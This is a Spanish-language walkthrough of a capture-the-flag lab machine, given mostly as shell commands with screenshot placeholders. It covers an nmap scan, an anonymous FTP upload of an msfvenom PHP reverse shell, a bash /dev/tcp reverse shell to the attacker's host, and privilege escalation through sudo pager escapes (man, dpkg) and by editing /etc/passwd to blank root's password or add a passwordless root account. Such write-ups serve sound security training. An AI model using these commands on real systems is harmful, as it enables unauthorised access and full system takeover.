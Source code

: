
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250206154045.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250206154119.png]]

```Bash
ftp 172.17.0.2
```

![[Pasted image 20250206154154.png]]

```Bash
anonymous
```

![[Pasted image 20250206154211.png]]

```Bash
ls
```

![[Pasted image 20250206154233.png]]

```Bash
cd upload
```

![[Pasted image 20250206155319.png]]

Nos metemos en la web:

![[Pasted image 20250206154434.png]]

Creamos payload que vamos a subir:

```Bash
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=4444 -f raw > shell.php
```

![[Pasted image 20250206155103.png]]

```Bash
put shell.php
```

![[Pasted image 20250206155254.png]]

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![[Pasted image 20250206155207.png]]

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![[Pasted image 20250206155218.png]]

![[Pasted image 20250206155401.png]]

Miramos en la shell:

![[Pasted image 20250206155425.png]]

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![[Pasted image 20250206155440.png]]

Miramos la otra shell:

![[Pasted image 20250206155506.png]]

Tratamiento **tty**:

En la shell de nuestro kali:

```Bash
stty size
```

![[Pasted image 20250206165349.png]]

En la shell víctima:

```Bash
script /dev/null -c bash
```

![[Pasted image 20250206165438.png]]

```Bash
cntrl + z
```

![[Pasted image 20250206165508.png]]

```Bash
stty raw -echo;fg
```

![[Pasted image 20250206165522.png]]

```Bash
reset xterm
```

![[Pasted image 20250206165533.png]]

```Bash
export TERM=xterm
```

![[Pasted image 20250206165554.png]]

```Bash
export SHELL=bash
```

![[Pasted image 20250206165609.png]]

```Bash
stty rows 36 columns 150
```

![[Pasted image 20250206165647.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250206155539.png]]

```Bash
sudo -u pingu /usr/bin/man man
```

![[Pasted image 20250206162526.png]]

```Bash
!/bin/bash
```

![[Pasted image 20250206162724.png]]

```Bash
whoami
```

![[Pasted image 20250206162744.png]]

Elevamos privilegios de nuevo:

```Bash
sudo -l
```

![[Pasted image 20250206162834.png]]

```Bash
sudo -u gladys dpkg -l
```

![[Pasted image 20250206163141.png]]

```Bash
!/bin/bash
```

![[Pasted image 20250206163447.png]]

```Bash
whoami
```

![[Pasted image 20250206163513.png]]

Elevamos privilegios de nuevo:

```Bash
sudo -l
```

![[Pasted image 20250206163523.png]]

```Bash
sudo -u root /usr/bin/chown gladys:gladys /etc/
```

![[Pasted image 20250206164638.png]]

```Bash
sed -i 's/root:x:/root::/g' /etc/passwd
```

![[Pasted image 20250206164649.png]]

```Bash
su root
```

![[Pasted image 20250206164702.png]]

```Bash
whoami
```

![[Pasted image 20250206164722.png]]

Otra forma en vez de vaciar la contraseña es creando otro root:

```Bash
echo 'root2::0:0:root:/root:/bin/bash' >> /etc/passwd
```

![[Pasted image 20250206170353.png]]

```Bash
su root2
```

![[Pasted image 20250206170423.png]]

```Bash
whoami
```

![[Pasted image 20250206170448.png]]


